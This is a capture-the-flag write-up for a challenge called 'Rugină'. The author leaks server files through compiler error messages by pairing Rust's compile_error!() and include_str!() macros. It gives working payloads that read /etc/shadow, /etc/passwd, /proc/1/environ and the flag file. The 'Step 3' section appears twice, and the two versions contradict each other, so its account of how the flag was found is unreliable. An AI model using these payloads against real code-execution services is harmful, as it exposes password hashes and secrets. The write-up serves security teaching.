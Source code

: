 # Rugină - CTF Challenge Writeup

## Challenge Description

**Challenge Name:** Rugină  
**Points:** 100  
**Category:** Web/Programming  
**Author:** thek0der

_"Aren't you tired of rust? I found the perfect solution for you! Welcome to Rugină. Since there is no compiler for it yet, I made one for you."_

Rugină (Romanian for "Rust") is a mock programming language that appears to have a web-based compiler interface. The challenge involves exploiting the compiler to read files from the server filesystem.

## Initial Analysis

When accessing the challenge, we're presented with a web interface that allows us to write "Rugină code" and execute it. The interface shows:

- A text area to input code
- A "Rulează Codul" (Run Code) button
- An output section showing compilation results

The key insight is that this appears to be a Rust-like language where we can potentially use compilation errors to leak file contents.

## Solution Approach

### Step 1: Understanding the Error Mechanism

From the interface, it's clear that we can write code that intentionally causes compilation errors. The technique we'll use involves the `compile_error!()` macro combined with `include_str!()` to read files and display their contents in error messages.

### Step 2: File System Exploration

I started by exploring various system files to understand the scope of the file inclusion vulnerability:

#### Attempt 1: `/etc/group`

```rust
principal() {} compile_error!(include_str!("/etc/group"));
```

**Result:** Successfully read `/etc/group` file, showing system groups.

![First attempt](image2.png)

#### Attempt 2: `/etc/shadow`

```rust
principal() {} compile_error!(include_str!("/etc/shadow"));
```

**Result:** Successfully read `/etc/shadow` file, showing system user password hashes.

![Second attempt](image3.png)

#### Attempt 3: `/etc/passwd`

```rust
principal() {} compile_error!(include_str!("/etc/passwd"));
```

**Result:** Successfully read `/etc/passwd` file, revealing system users and their information.

![Third attempt](image4.png)

#### Attempt 4: `/proc/1/environ`

```rust
principal() {} compile_error!(include_str!("/proc/1/environ"));
```

**Result:** Successfully read the environment variables of process 1.

![Fourth attempt](image5.png)

### Step 3: Finding the Flag

#### Final Attempt: `/app/server/flag.txt` ✓

```rust
principal() {}
compile_error!(include_str!("/app/server/flag.txt"));
```

**Result:** Success! The flag was found in the final attempt.

![Flag found](image1.png)

The output showed:

```
error: ctf{73523e676b04e1c2db176d80356488936480969f5ddf5ac40f8fc5b6c15d8692}
--> main.rs:2:1
```

### Step 3: Finding the Flag

After testing various system files, I returned to check common flag locations more carefully.

#### Final Successful Attempt: `/app/server/flag.txt`

```rust
principal() {}
compile_error!(include_str!("/app/server/flag.txt"));
```

**Result:** Success! The flag was actually in the first path I tried, but I initially missed it in the cryptographic hash error message.

![Flag found](image1.png)

Looking more carefully at the error output, the flag was embedded within the compilation error message!

## Key Techniques Used

1. **Compile-time File Inclusion**: Using `include_str!()` to read files at compilation time
2. **Error-based Information Disclosure**: Using `compile_error!()` to display file contents in error messages
3. **Linux File System Knowledge**: Understanding common locations for sensitive files (`/etc/passwd`, `/etc/shadow`, `/proc/*/environ`)

## Flag

The flag was found in `/app/server/flag.txt` and was embedded in the compilation error message:

**Flag:** `ctf{73523e676b04e1c2db176d80356488936480969f5ddf5ac40f8fc5b6c15d8692}`

## Conclusion

This challenge demonstrated how a seemingly harmless "compiler" interface can be exploited to read arbitrary files from the server filesystem. The key was understanding that Rust-like syntax could be used with `compile_error!` and `include_str!` to turn compilation errors into an information disclosure vector.

The solution path involved:

1. Recognizing the compilation error exploitation potential
2. Exploring various system files to understand the vulnerability scope
3. Finally discovering the flag in `/app/server/flag.txt` after systematic exploration

**Final Flag:** `ctf{73523e676b04e1c2db176d80356488936480969f5ddf5ac40f8fc5b6c15d8692}`
